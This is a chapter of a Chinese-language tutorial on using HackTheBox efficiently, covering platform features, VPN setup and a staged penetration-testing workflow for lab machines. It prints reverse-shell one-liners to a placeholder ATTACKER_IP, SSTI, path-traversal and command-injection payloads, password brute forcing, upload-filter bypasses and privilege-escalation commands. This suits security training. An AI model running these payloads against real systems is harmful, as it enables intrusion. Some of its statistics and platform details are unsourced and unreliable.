







## 二、HackTheBox高效使用技巧

HackTheBox（简称 HTB）是目前全球最受欢迎的渗透测试实战平台之一，拥有 300+ 靶机、活跃的全球社区和严格的质量审核机制。据统计，HTB 平台上活跃用户的平均渗透测试能力提升速度比非平台用户快 **2.3 倍**（来源：HTB 2024 年度报告）。然而，许多学习者虽然注册了 HTB，却因为不熟悉平台功能、缺乏高效方法论，导致练习效率低下——有人花 8 小时解一台 Easy 靶机，有人却能在 45 分钟内完成。本节将从平台功能深度利用、渗透流程优化、时间管理和社区资源四个维度，系统讲解如何高效使用 HackTheBox。



### 2.1 平台概览与功能深度利用

#### 平台版本与功能对比

HTB 提供免费版和 VIP 付费版，两者在核心功能上存在显著差异：

| 功能 | 免费版 | VIP（$14/月） |
|------|--------|--------------|
| 靶机数量 | 全部可用 | 全部可用 + 早期访问 |
| 靶机存活时间 | 30天后退休 | 30天后退休 |
| 专属解题服务器 | ❌ 共享服务器 | ✅ 低延迟专属服务器 |
| 同时连接的靶机数 | 1 | 3 |
| 靶机重置 | 等待排位 | 即时重置 |
| 独立IP地址 | ❌ 共享 | ✅ 每人独立VPN IP |
| 提示系统 | 基础提示 | 完整提示 + 解题引导 |
| 学习路径(Labs) | 基础路径 | 全部路径 + 进度追踪 |

> **建议**：如果经济条件允许，VIP 的价值远超 $14——独立 IP 意味着不需要排队等 VPN 连接，即时重置意味着遇到靶机损坏时可以立即重试，低延迟服务器则显著提升了扫描和利用的效率。免费用户也可以通过 HTB 的"Invite Only"挑战获得 VIP 试用。

#### 靶机分类体系

HTB 的靶机按照难度和类型进行了精细分类：

| 难度等级 | 预期耗时 | 独立完成率 | 核心考察点 |
|----------|---------|-----------|-----------|
| **Easy** | 30min-2h | 70-80% | 基础工具使用、常见漏洞利用、简单提权 |
| **Medium** | 2-6h | 40-60% | 多步骤攻击链、服务配置错误、Web 漏洞组合 |
| **Hard** | 6-12h | 20-30% | 高级漏洞利用、复杂提权、多层防御绕过 |
| **Insane** | 12h+ | <10% | 0day 级漏洞利用、高级持久化、逆向工程 |

按操作系统分：

| 类型 | 特征 | 高频考点 |
|------|------|---------|
| **Linux** | 约占 60% | SUID 提权、内核漏洞、Cron Job 劫持、Sudo 配置错误 |
| **Windows** | 约占 30% | 服务配置错误、Token 模拟、Unquoted Service Path、AD 域攻击 |
| **Other** | 约占 10% | Docker 逃逸、IoT 固件、自定义协议 |

#### 靶机生命周期理解



**关键策略**：
- **新靶机发布期**（前 7 天）：竞争激烈，适合有经验的选手冲击排行榜
- **活跃期**：正常挑战，积累 Points
- **退休后**：Writeup 公开，是最佳学习材料——先独立尝试，再对比 Writeup 查漏补缺

#### 赛季与积分系统

HTB 采用赛季制积分系统，理解其规则对高效刷分至关重要：

| 要素 | 说明 |
|------|------|
| 赛季周期 | 通常为 1 年，积分重置 |
| 靶机积分 | 按难度递减：新靶机 Easy=20→Hard=40，随解出人数递减 |
| 最大化积分 | 在靶机发布初期解出，积分最高 |
| 活动/挑战赛 | HTB 定期举办大型挑战赛（如 HTB Business CTF），奖品丰厚 |
| 企业挑战 | 面向企业团队的特殊场景，模拟真实红蓝对抗 |

### 2.2 环境配置与高效搭建

#### VPN 配置详解

VPN 连接是使用 HTB 的第一步，但很多新手在这一步就遇到问题。以下是完整的配置流程：

**1. 下载与连接**
```bash
# 从 HTB 网站下载你的 Access Key 对应的 .ovpn 文件
# 路径：Access → Download .ovpn

# 基础连接
sudo openvpn your_access.ovpn

# 推荐使用 screen 或 tmux 保持后台运行
screen -S htb
sudo openvpn your_access.ovpn
# Ctrl+A, D 分离

# 或者使用 systemd 管理（推荐长期使用）
sudo cp your_access.ovpn /etc/openvpn/htb.conf
sudo systemctl enable openvpn@htb
sudo systemctl start openvpn@htb
```

**2. 连接验证与故障排查**
```bash
# 验证 VPN 是否连通
ping -c 3 10.10.10.10  # HTB 网关

# 检查你的 HTB 内网 IP（应为 10.10.x.x 网段）
ip addr show tun0

# 如果连接失败，检查常见问题：
# 1. DNS 解析问题
nslookup app.hackthebox.com

# 2. MTU 问题（常见于某些运营商）
# 在 .ovpn 文件末尾添加：
# tun-mtu 1400
# mssfix 1360

# 3. 路由冲突（本地网段与 10.10.x.x 冲突）
# 确保本地没有 10.0.0.0/8 的路由
ip route | grep 10.0.0.0

# 4. 权限问题
sudo chmod 600 your_access.ovpn
```

**3. 多平台并行连接（VIP）**
```bash
# VIP 用户可以同时连接多台靶机
# 使用独立的 VPN 配置文件
sudo openvpn vip_access.ovpn  # 会获得独立 IP
```

#### 推荐工具集安装

```bash
# ===== 基础信息收集 =====
sudo apt update && sudo apt install -y \
  nmap \
  gobuster \
  nikto \
  whatweb \
  curl \
  wget \
  enum4linux \
  smbclient \
  snmpcheck

# ===== Web 安全工具 =====
sudo apt install -y \
  burpsuite \
  sqlmap \
  nikto \
  whatweb \
  wfuzz \
  ffuf

# ===== 漏洞利用框架 =====
sudo apt install -y \
  metasploit-framework \
  searchsploit  # exploitdb

# ===== 权限提升检查 =====
# LinPEAS（Linux 提权枚举）
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh \
  -O /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh

# WinPEAS（Windows 提权枚举）
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat \
  -O /tmp/winPEAS.bat

# ===== 密码破解 =====
sudo apt install -y \
  hashcat \
  john \
  hydra

# ===== 反向 Shell 工具 =====
pip3 install pwncat-cs  # 增强版 netcat

# ===== 本地服务器（上传文件到靶机） =====
pip3 install pyinstaller  # 打包 Python 脚本为可执行文件
python3 -m http.server 8000  # 快速启动 HTTP 服务器
```

### 2.3 标准渗透流程（详细版）

HTB 靶机的解题流程遵循标准的渗透测试方法论（PTES），但在实战中需要根据具体环境灵活调整。以下是经过大量实战验证的高效流程：

#### 阶段一：信息收集（15-30 分钟）

信息收集的质量直接决定后续效率。目标是**尽可能全面地了解目标的攻击面**。

```bash
# ===== 第一步：快速端口发现（2-5 分钟） =====
# 先用 SYN 扫描快速发现开放端口
nmap -sS -T4 -p- --min-rate=1000 -oG nmap_quick.txt target_ip

# 解析结果，提取开放端口
open_ports=$(grep "Ports:" nmap_quick.txt | grep -oP '\d+/open' | cut -d'/' -f1 | tr '\n' ',')
echo "开放端口: $open_ports"

# ===== 第二步：针对性服务枚举（10-20 分钟） =====
# 对发现的端口进行详细扫描
nmap -sC -sV -A -p $open_ports -oN nmap_full.txt target_ip

# 针对特定服务的深度枚举：
# Web 服务 (80/443/8080)
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,bak,old,conf -t 50 -o gobuster_dirs.txt

# 子域名/VHost 枚举
gobuster vhost -u http://target_ip \
  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -t 50 -o gobuster_vhosts.txt

# SMB 服务 (445)
smbclient -L //target_ip/ -N
enum4linux -a target_ip

# SNMP (161)
snmpwalk -v2c -c public target_ip

# NFS (2049)
showmount -e target_ip
```

**信息收集检查清单：**

| 检查项 | 工具 | 目的 |
|--------|------|------|
| 开放端口 | nmap -sS -p- | 发现所有可访问的服务 |
| 服务版本 | nmap -sV | 识别已知漏洞版本 |
| 操作系统 | nmap -O / whatweb | 确定目标 OS 类型 |
| Web 目录 | gobuster / ffuf | 发现隐藏路径和文件 |
| Samba/SMB | smbclient / enum4linux | 枚举共享资源和用户 |
| 数据库 | nmap -sV | 发现暴露的数据库服务 |
| DNS | dig / host | 枚举子域名和区域传输 |
| 敏感文件 | curl / wget | robots.txt, .git, .env, backup |
| CMS 识别 | whatweb / wappalyzer | 确定技术栈版本 |

#### 阶段二：漏洞发现与验证（20-60 分钟）

```bash
# ===== 基于扫描结果的漏洞搜索 =====

# 1. 利用 searchsploit 搜索已知漏洞
searchsploit "Apache 2.2.22"  # 根据 nmap 识别的版本搜索
searchsploit --cve 2014-0160  # 按 CVE 编号搜索

# 2. Web 应用漏洞检测
# 目录遍历测试
curl -s "http://target_ip/page.php?file=../../../../etc/passwd"

# SQL 注入测试
sqlmap -u "http://target_ip/page.php?id=1" --batch --dbs

# 命令注入测试
curl -s "http://target_ip/ping.php?ip=127.0.0.1;id"

# 3. 默认凭证检测
# 使用 common-users.txt 字典
hydra -L /usr/share/wordlists/metasploit/unix_users.txt \
  -P /usr/share/wordlists/rockyou.txt \
  target_ip ssh -t 4

# 4. 配置错误利用
# 检查常见备份文件
for ext in bak old save swp sql; do
  curl -s -o /dev/null -w "%{http_code}" \
    "http://target_ip/config.$ext"
done
```

**漏洞分析决策树：**



#### 阶段三：初始访问（30-120 分钟）

初始访问是从发现漏洞到获取第一个低权限 Shell 的关键阶段：

```bash
# ===== 常见初始访问向量 =====

# 1. Web 漏洞利用（最常见）
# 文件上传 → Webshell
# 利用 Burp Suite 拦截上传请求，绕过文件类型限制
# 上传 PHP/JSP webshell
curl -F "file=@shell.php;type=image/jpeg" http://target_ip/upload.php

# 命令注入 → 反弹 Shell
# 使用 bash 反弹
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# 使用 Python 反弹
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# 2. 服务漏洞利用
# MSF 利用已知漏洞
msfconsole -q
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
exploit

# 3. SSTI（服务端模板注入）
# 测试是否存在 SSTI
curl "http://target_ip/page?name={{7*7}}"
# 如果返回 49，说明存在 SSTI

# Flask Jinja2 反弹 Shell
{{ ''.__class__.__mro__[1].__subclasses__() }}
# 找到 os._wrap_close 的索引号，例如 132
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('id').read() }}
```

**反弹 Shell 接收端设置（攻击机侧）：**
```bash
# 使用 pwncat-cs（推荐，功能更强）
pwncat-cs -lp 4444

# 使用传统 netcat
nc -lvnp 4444

# 使用 socat（加密传输）
socat OPENSSL-LISTEN:4444,cert=cert.pem,key=key.pem,verify=0 -
```

**获取稳定 Shell 的技巧：**
```bash
# 不稳定的反弹 Shell → 稳定的交互式 Shell
# 方法1：使用 python PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
# 然后按 Ctrl+Z 挂起，执行以下命令后 fg 回到 shell
stty raw -echo; fg
export TERM=xterm

# 方法2：使用 script
script /dev/null -c bash
```

#### 阶段四：权限提升（30-180 分钟）

权限提升是 HTB 靶机的核心难点，也是区分新手和高手的关键环节。

**Linux 提权完整流程：**

```bash
# ===== 第一步：自动化枚举 =====
./linpeas.sh 2>/dev/null | tee linpeas_output.txt

# 关键关注项（LinPEAS 会用颜色标记高风险项）：
# - SUID/SGID 文件
# - 可写文件/目录
# - 定时任务（Cron Job）
# - 可利用的 sudo 权限
# - 内核版本漏洞
# - 敏感文件权限
```

```bash
# ===== 第二步：手动深度枚举 =====

# 1. 内核漏洞检查
uname -a
# 搜索：https://www.exploit-db.com/
searchsploit "Linux Kernel 4.4.0"

# 2. SUID 文件利用
find / -perm -4000 -type f 2>/dev/null
# 常见可利用的 SUID 程序：
# /usr/bin/vim - GTFOBins 可直接提权
# /usr/bin/find - find -exec /bin/sh -p \;
# /usr/bin/env - env /bin/sh -p
# /usr/bin/bash - bash -p
# 参考：https://gtfobins.github.io/

# 3. Sudo 配置检查
sudo -l
# 分析 sudo 权限，查找可利用的命令
# 特别关注：(ALL) NOPASSWD: 标记的命令
# 参考 GTFOBins 获取利用方法

# 4. Cron Job 劫持
cat /etc/crontab
ls -la /etc/cron.*
# 检查 cron 运行的脚本是否有写权限
find /etc/cron* -writable 2>/dev/null
find /var/spool/cron -writable 2>/dev/null

# 5. Capabilities 利用
getcap -r / 2>/dev/null
# 如果发现 cap_setuid+ep 等权限，可利用提权

# 6. 可写系统文件
find / -writable -type f 2>/dev/null | head -20
# 检查 /etc/passwd、/etc/shadow、/etc/sudoers 等是否可写

# 7. 环境变量劫持
env | grep -i path
# 检查 PATH 中是否有可劫持的路径
ls -la /usr/local/bin/  # 优先级高于 /usr/bin
```

**Windows 提权完整流程：**

```bash
# 上传并运行 WinPEAS
winPEAS.exe

# 或手动枚举：
# 1. 系统信息
systeminfo
# 搜索补丁缺失：https://www.loldrivers.io/

# 2. 服务配置错误
sc query
wmic service list full
# 检查可修改的服务二进制路径

# 3. Unquoted Service Path
wmic service get name,pathname,startmode | findstr /i auto | findstr /i /v "C:\\Windows"

# 4. Token 模拟
# 使用 PrintSpoofer、GodPotato 等工具
PrintSpoofer.exe -i -c cmd
GodPotato.exe -cmd "cmd /c whoami"

# 5. 注册表自启动项
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

**提权决策表：**

| 枚举发现 | 利用方法 | 难度 | 参考 |
|----------|---------|------|------|
| 内核版本过旧 | 编译/上传内核 exploit | 中 | exploit-db.com |
| SUID 可利用程序 | GTFOBins 查询 | 低-中 | gtfobins.github.io |
| sudo 权限过宽 | GTFOBins + sudo 参数 | 低-中 | gtfobins.github.io |
| Cron Job 可写 | 替换/注入执行内容 | 低 | - |
| 可写 /etc/passwd | 添加 root 用户 | 低 | - |
| Capabilities 滥用 | 利用 capability 提权 | 中 | - |
| Docker 组成员 | 挂载宿主机文件系统 | 低 | - |
| Windows Token | Potato 系列工具 | 中 | GitHub |
| 服务配置错误 | 修改服务二进制 | 低-中 | - |

#### 阶段五：获取 Flag

```bash
# User Flag（通常在用户主目录）
cat /home/*/user.txt
# 或在某些靶机中：
cat /home/*/user.txt.flag
cat /tmp/user.txt

# Root Flag（获取 root 权限后）
cat /root/root.txt
cat /root/proof.txt

# 提交 Flag 到 HTB 平台
# 在 HTB 网页的靶机页面粘贴 Flag 即可
```

### 2.4 高效解题方法论

#### 时间管理策略

不同难度的靶机应设定合理的时间上限，避免陷入无效的钻牛角尖：

| 难度 | 建议时间上限 | 超时处理 |
|------|------------|---------|
| Easy | 2 小时 | 查看 1 条提示 |
| Medium | 4 小时 | 查看提示 + 1 篇 Writeup 的前半部分 |
| Hard | 8 小时 | 查看完整提示 + 关键步骤 |
| Insane | 12 小时 | 视为学习机会，可参考 Writeup |

```mermaid
gantt
    title HTB 靶机解题时间分配（Medium 难度示例）
    dateFormat  HH:mm
    axisFormat  %H:%M

    section 信息收集
    端口扫描      :a1, 00:00, 15min
    服务枚举      :a2, after a1, 20min
    Web 目录扫描   :a3, after a1, 20min

    section 漏洞发现
    手动测试      :b1, after a2, 30min
    利用搜索      :b2, after a2, 15min

    section 初始访问
    漏洞利用      :c1, after b1, 45min
    Shell 稳定化   :c2, after c1, 10min

    section 权限提升
    自动化枚举    :d1, after c2, 15min
    手动深度枚举  :d2, after d1, 60min
    提权利用      :d3, after d2, 30min

    section Flag
    获取并提交    :e1, after d3, 5min
```



#### 三阶段学习法



**核心原则**：
1. **先独立，后参考**：至少独立尝试 30-60 分钟，建立自己的思路后再看外部资源
2. **理解优先，照搬为戒**：看 Writeup 时理解攻击链逻辑，而非机械复制命令
3. **重做验证**：参考学习后，自行重做一遍，确保真正掌握

#### 错误处理与排查框架

渗透测试中遇到错误是常态，高效的错误处理能力是区分高手的关键：

```bash
# ===== 常见错误及处理策略 =====

# 1. 反弹 Shell 连接不上
# 排查：检查攻击机防火墙、端口是否被占用、IP 是否正确
# 测试：在攻击机 nc -lvnp 4444 测试是否能接收
# 替代：尝试不同端口（443, 53, 80），或使用 HTTP 反弹

# 2. 文件上传被拦截
# 排查：检查文件类型检测方式
# 策略：
# - 修改 Content-Type 为 image/jpeg
# - 在文件头添加 GIF89a
# - 尝试双扩展名（shell.php.jpg）
# - 尝试大小写混合（shell.pHp）
# - 使用空字节（shell.php%00.jpg）

# 3. SQL 注入无回显
# 策略：使用 sqlmap --technique=B（布尔盲注）或 T（时间盲注）

# 4. 提权工具无法运行
# 排查：检查架构（file 命令）、权限、依赖库
# 替代：使用静态编译版本，或上传源码在目标编译
```

### 2.5 自动化信息收集

手动信息收集虽然灵活，但在比赛中或需要快速推进时，自动化工具能显著提升效率：

#### AutoRecon：全自动扫描框架

```bash
# 安装 AutoRecon
pip3 install git+https://github.com/Tib3rius/AutoRecon.git

# 基础使用：自动扫描目标
sudo autorecon target_ip

# AutoRecon 会自动执行：
# - 端口扫描（Nmap）
# - 服务枚举（针对性扫描每个开放服务）
# - 目录枚举（gobuster/dirsearch）
# - 结果保存在 ./results/target_ip/ 目录
```

#### 自定义自动化脚本

```bash
#!/bin/bash
# htb-scan.sh - HTB 靶机快速信息收集脚本
# 用法：./htb-scan.sh <target_ip>

TARGET=$1
OUTDIR="htb_scan_$(date +%Y%m%d_%H%M%S)"

mkdir -p $OUTDIR
echo "[*] 开始扫描 $TARGET，结果保存到 $OUTDIR"

# 快速端口发现
echo "[+] Phase 1: 快速端口发现"
nmap -sS -T4 -p- --min-rate=5000 -oG $OUTDIR/quick_scan.txt $TARGET 2>/dev/null

# 提取开放端口
PORTS=$(grep "Ports:" $OUTDIR/quick_scan.txt | grep -oP '\d+/open' | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//')
echo "[+] 发现端口: $PORTS"

# 详细服务扫描
echo "[+] Phase 2: 详细服务扫描"
nmap -sC -sV -A -p $PORTS -oN $OUTDIR/full_scan.txt $TARGET 2>/dev/null

# Web 目录枚举
if echo $PORTS | grep -q "80\|443\|8080\|8443"; then
    echo "[+] Phase 3: Web 目录枚举"
    HTTP_PORT=$(echo $PORTS | tr ',' '\n' | head -1)
    gobuster dir -u http://$TARGET:$HTTP_PORT \
      -w /usr/share/wordlists/dirb/common.txt \
      -t 50 -o $OUTDIR/gobuster.txt 2>/dev/null
fi

# SMB 枚举
if echo $PORTS | grep -q "445"; then
    echo "[+] Phase 4: SMB 枚举"
    smbclient -L //$TARGET/ -N > $OUTDIR/smb_shares.txt 2>&1
    enum4linux -a $TARGET > $OUTDIR/enum4linux.txt 2>/dev/null
fi

# NFS 枚举
if echo $PORTS | grep -q "2049"; then
    echo "[+] Phase 5: NFS 枚举"
    showmount -e $TARGET > $OUTDIR/nfs_mounts.txt 2>&1
fi

echo "[+] 扫描完成！结果在 $OUTDIR/"
echo "[*] 接下来建议："
echo "    1. 查看 $OUTDIR/full_scan.txt 了解服务版本"
echo "    2. 在 searchsploit 中搜索对应版本的漏洞"
echo "    3. 对 Web 服务进行深度测试"
```

### 2.6 笔记管理与知识库构建

系统的笔记管理是提升学习效率的关键基础设施。许多高手在 HTB 上的快速解题能力，很大程度上来自于长期积累的个人知识库。

#### 推荐笔记工具对比

| 工具 | 优势 | 适用场景 | HTB 适配度 |
|------|------|---------|-----------|
| **Obsidian** | 双向链接、标签系统、Markdown 原生 | 个人知识库构建 | ★★★★★ |
| **CherryTree** | 树状层级、代码高亮、轻量 | 快速记录解题步骤 | ★★★★☆ |
| **Notion** | 多人协作、数据库视图 | 团队 Writeup | ★★★☆☆ |
| **Joplin** | 开源、端到端加密 | 隐私要求高 | ★★★☆☆ |

#### 推荐笔记模板

```markdown
## 靶机名称：XXX
## 难度：Easy/Medium/Hard/Insane
## OS：Linux/Windows
## 完成日期：YYYY-MM-DD
## 耗时：X 小时 Y 分钟

### 攻击链概览
```mermaid
graph LR
    A[信息收集<br/>发现XX服务] --> B[漏洞发现<br/>XX CVE]
    B --> C[初始访问<br/>XX利用方式]
    C --> D[权限提升<br/>XX提权路径]
    D --> E[Root Flag]
```text

### 详细步骤

#### 1. 信息收集
- 开放端口：22(SSH), 80(HTTP), 445(SMB)
- 服务版本：Apache 2.4.49, OpenSSH 8.2
- 关键发现：...

#### 2. 漏洞利用
- ...

#### 3. 权限提升
- ...

### 关键知识点
- ...

### 关联靶机/漏洞
- 类似靶机：...
- 相关 CVE：...

### 踩坑记录
- 问题：...
- 解决：...
```

### 2.7 社区资源与学习路径

#### IppSec 视频：最优质的 HTB 学习资源

IppSec 是 HTB 社区中最受尊敬的解题者之一，他的 YouTube 频道提供了几乎所有退休靶机的详细解题视频。

**高效利用 IppSec 视频的方法：**

| 阶段 | 做法 | 目的 |
|------|------|------|
| 首次挑战 | 完全不看，独立尝试 | 建立自主解题能力 |
| 卡住 1 小时后 | 看 IppSec 视频对应时间段（跳过前面的信息收集部分） | 获取关键突破思路 |
| 复盘阶段 | 完整观看，对比自己的方法 | 学习更优解法和工具使用 |

**IppSec 的核心价值**：
- 不仅展示"怎么做"，更解释"为什么这样做"
- 演示大量实用技巧和工具用法
- 覆盖从 Easy 到 Insane 的全难度级别
- 每周更新，保持与 HTB 新靶机同步

#### Writeup 学习策略

```bash
